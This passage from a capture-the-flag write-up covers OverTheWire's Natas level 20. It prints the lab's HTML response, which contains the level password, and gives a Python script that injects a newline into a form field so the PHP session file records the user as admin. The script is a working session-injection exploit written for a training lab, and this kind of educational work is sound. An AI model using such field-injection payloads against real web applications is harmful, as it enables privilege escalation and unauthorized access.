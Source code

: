 ```python
    text = send_request()
    print(text)
```

we get the message:

```bash
$ python  natas20.py
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas20", "pass": "p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw" };</script></head>
<body>
<h1>natas20</h1>
<div id="content">
DEBUG: MYREAD brafbmkkbb2tmhhrn5m68r36n2<br>DEBUG: Session file doesn't exist<br>You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.
<form action="index.php" method="POST">
Your name: <input name="name" value=""><br>
<input type="submit" value="Change name" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
DEBUG: MYWRITE brafbmkkbb2tmhhrn5m68r36n2 <br>DEBUG: Saving in /var/lib/php/sessions/mysess_brafbmkkbb2tmhhrn5m68r36n2<br>
```

The functions `myread` and `mywrite` need to be read carefully.

The file is created in a first call, then read in the second. So we shall call the API twice, as in the following script:

```python
import base64
import requests
from requests.auth import HTTPBasicAuth

basic_auth = HTTPBasicAuth('natas20', 'p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw')

url = "http://natas20.natas.labs.overthewire.org/index.php?debug"


def send_request() -> str:
    cookie = "PHPSESSID=" + "admin"
    headers = {'Content-Type': 'application/x-www-form-urlencoded',
               'Cookie': cookie}
    body = "name=test\nadmin 1"
    response = requests.post(url, headers=headers,
                             auth=basic_auth, data=body, verify=False)
    return response.text


if __name__ == '__main__':
    text = send_request()
    text = send_request()
    print(text)
```